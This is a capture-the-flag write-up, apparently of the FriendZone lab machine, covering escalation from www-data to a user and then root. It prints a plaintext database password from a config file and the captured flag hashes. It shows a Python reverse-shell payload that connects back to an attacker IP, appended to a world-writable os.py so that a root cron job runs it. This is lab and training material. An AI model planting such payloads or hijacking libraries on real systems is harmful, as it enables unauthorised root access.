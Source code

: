# www-data user priv esc to friend
## Uploaded and ran LinEnum.sh through smb
- there was a user friend with some privages
- keep rummaging through the directories and look into the best stuff we couldnt see before 
### /var/www
#### mysql_data.conf --> juicy credentials
```
www-data@FriendZone:/var/www$ cat mysql_data.conf 
for development process this is the mysql creds for user friend

db_user=friend

db_pass=Agpyu12!0.213$

db_name=FZ
www-data@FriendZone:/var/www$ 


friend@FriendZone:~$ cat user.txt 
a9ed20acecd6c5b6b52f474e15ae9a11

```
- friend's password is givin in clear text and we will move on to priv esc to rooti

### World writeable directories

[-] World-writable files (excluding /proc and /sys):                                       
-rwxrwxrwx 1 root root 25910 Jan 15  2019 /usr/lib/python2.7/os.py  

### File in opt is running on a cron job. Importing os 
#### We gonna exploit that somehow

```
friend@FriendZone:/opt$ ls
server_admin
friend@FriendZone:/opt$ cd server_admin/
friend@FriendZone:/opt/server_admin$ ls
reporter.py
friend@FriendZone:/opt/server_admin$ cat reporter.py 
#!/usr/bin/python

import os

to_address = "admin1@friendzone.com"
from_address = "admin2@friendzone.com"

print "[+] Trying to send email to %s"%to_address

#command = ''' mailsend -to admin2@friendzone.com -from admin1@friendzone.com -ssl -port 465 -auth -smtp smtp.gmail.co-sub scheduled results email +cc +bc -v -user you -pass "PAPAP"'''

#os.system(command)

# I need to edit the script later
# Sam ~ python developer
```

### /usr/lib/python2.7/os.py
- This file is wrx by the world so we can place a reverse shell in it and wait for the cron job to execute the payload. 
- Placing our payload at the end of it and enuring that we can get a reverse shell by executing the script ourselves will ensure a victory

```
import socket,subprocess,os
import pty
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.0.14.38",1985))
dup2(s.fileno(),0)
dup2(s.fileno(),1)
dup2(s.fileno(),2)

pty.spawn("/bin/bash")

```

## root.txt
```
root@FriendZone:~# cat root.txt 
b0e6c60b82cf96e9855ac1656a9e90c7

```
